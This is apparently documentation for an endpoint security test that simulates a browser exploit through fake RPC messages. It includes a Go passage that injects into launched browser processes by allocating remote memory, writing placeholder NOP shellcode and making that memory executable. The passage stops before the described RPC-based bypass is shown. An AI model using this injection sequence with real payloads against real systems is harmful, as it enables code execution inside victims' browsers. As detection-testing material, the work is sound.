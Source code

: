 ### **potential browser exploit via fake RPC messages**

this is an attack where specially crafted RPC (Remote Procedure Call) messages are sent to exploit vulnerabilities in web browsers. this can be used to bypass CFG (Control Flow Guard) mitigations, which prevent execution of arbitrary code.

the test first launches several common web browsers and allocates memory in their address spaces. it then writes shellcode to this memory and attempts to execute it via manipulated RPC calls.

it simulates the CFG bypass by exploiting a vulnerability in RPC message handling, specifically `NdrServerCall2`, which has been used in irl exploits.

```go
func main() {
	Endpoint.Say("[+] Starting Potential Browser Exploit via Fake RPC Messages [+]")
	Endpoint.Start(test, cleanup)
}

func test() {
	browserProcesses := []string{"chrome.exe", "msedge.exe", "iexplore.exe", "brave.exe", "whale.exe", "browser.exe", "dragon.exe", "vivaldi.exe", "opera.exe", "seamonkey.exe", "safari.exe", "waterfox.exe"}
	for _, processName := range browserProcesses {
		cmd := exec.Command(processName)
		err := cmd.Start()
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to start process %s: %s", processName, err))
			continue
		}
		defer cmd.Process.Kill()

		// memory manipulation with VirtualProtect + WriteProcessMemory
		procHandle, err := windows.OpenProcess(windows.PROCESS_ALL_ACCESS, false, uint32(cmd.Process.Pid))
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to get process handle: %s", err))
			Endpoint.Stop(1) // ERROR
		}

		// allocate memory in target process
		addr, err := windows.VirtualAllocEx(procHandle, 0, 4096, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory: %s", err))
			Endpoint.Stop(1) // ERROR
		}

		// write shellcode to allocated memory
		shellcode := []byte{0x90, 0x90, 0x90, 0x90} // NOP sled as a placeholder
		var written uint32
		err = windows.WriteProcessMemory(procHandle, addr, &shellcode[0], uint32(len(shellcode)), &written)
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to write memory: %s", err))
			Endpoint.Stop(1) // ERROR
		}

		// change memory protection to EXECUTABLE
		oldProtect := windows.PAGE_READWRITE
		err = windows.VirtualProtectEx(procHandle, addr, 4096, windows.PAGE_EXECUTE_READ, &oldProtect)
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to change memory protection: %s", err))
			Endpoint.Stop(1) // ERROR
		}
```
